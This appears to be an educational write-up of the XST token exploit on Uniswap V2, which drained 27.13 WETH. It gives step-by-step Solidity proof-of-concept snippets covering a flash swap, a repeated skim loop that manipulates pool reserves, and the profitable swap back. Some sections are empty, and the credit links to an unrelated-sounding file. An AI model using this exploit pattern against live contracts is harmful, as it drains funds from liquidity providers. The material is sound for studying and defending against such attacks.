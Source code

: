 # XST

## What's XST?


## Amount stolen
27.13 WETH


## Vulnerability
Skimming logic

## Analysis


# proof of concept (PoC) 

We check the balance of WETH within the XST pool on Uniswap and initiate a swap for twice that amount. This action triggers a callback, invoking our custom `uniswapV2Call` function.

```solidity
        amount = WETH.balanceOf(address(Pair2));
        Pair1.swap(amount * 2, 0, address(this), " ");
```


In our `uniswapV2Call` we proceed by getting the current reserves of the XST/WETH pair on Uniswap

![XTS Image](../images/XTS/label.drawio.png)



```solidity
uint256 amountSellWETH = WETH.balanceOf(address(this));
(uint256 reserve0, uint256 reserve1,) = Pair2.getReserves(); 
```

![XTS Image](../images/XTS/before.drawio.png)




### Calculate swap

To execute a swap on Uniswap, we adhere to the Uniswap formula, inserting the required parameters for swaps.
With the following parameters:

![XTS Image](../images/XTS/para1.drawio.png)

![XTS Image](../images/XTS/formula.drawio.png)
```solidity
  uint256 amountOutXST = amountSellWETH * 997 * reserve0 / (reserve1 * 1000 + amountSellWETH * 997);
```




swap ST tokens for WETH tokens in the liquidity pool of Uniswap XST

```solidity
  WETH.transfer(address(Pair2), amountSellWETH);
  Pair2.swap(amountOutXST, 0, address(this), "");
```


### Skimming

The skim function in Uniswap V2 is used to claim accumulated tokens from a liquidity pool without removing liquidity. 
It's often used to retrieve additional tokens accumulated due to various operations, such as swaps.
   

```solidity
     XST.transfer(address(Pair2), XST.balanceOf(address(this)) / 8);   //(1/8th) of the XST balance held by the contract to the Uniswap pair, adding more liquidity to the pool.
        for (int256 i = 0; i < 15; i++) {
            Pair2.skim(address(Pair2));
        }

     Pair2.skim(address(this));
```


After skimming the tokens we sell the XST tokens to the WETH liquitiy pool, which allows us to manipulate the price


```solidity
   XST.transfer(address(Pair2), XST.balanceOf(address(this)));
```

![XTS Image](../images/XTS/liq.drawio.png)

Now we repeat the first steps:

### Calculate swap

![XTS Image](../images/XTS/para2.drawio.png)

```solidity
   uint256 amountOutWETH = amountSellXST * 997 * reserve1 / (reserve0 * 1000 + amountSellXST * 997);
```


### Swap for profit

```solidity
   Pair2.swap(0, amountOutWETH, address(this), "");
```


### Repay flashloan

```solidity
   WETH.transfer(address(Pair1), (amount * 2) * 1000 / 997 + 1000);
```


![XTS Image](../images/XTS/after.drawio.png)


### profit

Since we initiated the flash swap with 78 WETH, and at the and of the flash swap had 105 WETH, we were able to send the profit back to our wallet


![XTS Image](../images/XTS/profit.drawio.png)





**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)

